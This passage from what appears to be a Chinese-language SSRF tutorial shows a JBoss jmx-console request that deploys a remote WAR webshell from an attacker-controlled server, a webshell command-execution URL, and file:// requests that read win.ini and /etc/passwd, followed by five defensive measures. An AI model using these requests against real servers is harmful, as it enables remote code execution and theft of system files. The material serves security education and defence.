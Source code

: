 	http://127.0.0.1:8080/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.system:service=MainDeployer&methodIndex=17&arg0=http://our_public_internet_server/utils/cmd.war

通过加参数请求网马执行命令：http://127.0.0.1:8080/cmd/shell.jsp?x=dir

![baidu]({{site.img_url}}ssrf/ssrf18.png)

实战中一半不会有回显，类似于盲打只能。

## 读取本地文件

上面提到的案例都是基于http请求的。如果我们指定file协议，也可能读到服务器上的文件。如下的请求会让应用读取本地文件：

	Request: file:///C:/Windows/win.ini

![baidu]({{site.img_url}}ssrf/ssrf19.png)

下面是Adobe的一个案例，已经修复。请求为file:///etc/passwd



![baidu]({{site.img_url}}ssrf/ssrf20.png)


#如何防御

通常有以下5个思路：

1. 过滤返回信息，验证远程服务器对请求的响应是比较容易的方法。如果web应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。

2. 统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。

3. 限制请求的端口为http常用的端口，比如，80,443,8080,8090。

4. 黑名单内网ip。避免应用被用来获取获取内网数据，攻击内网。

5. 禁用不需要的协议。仅仅允许http和https请求。可以防止类似于file:///,gopher://,ftp:// 等引起的问题。

#参考资料

http://www.riyazwalikar.com/2012/11/cross-site-port-attacks-xspa-part-3.html

http://evilcos.me/?p=221


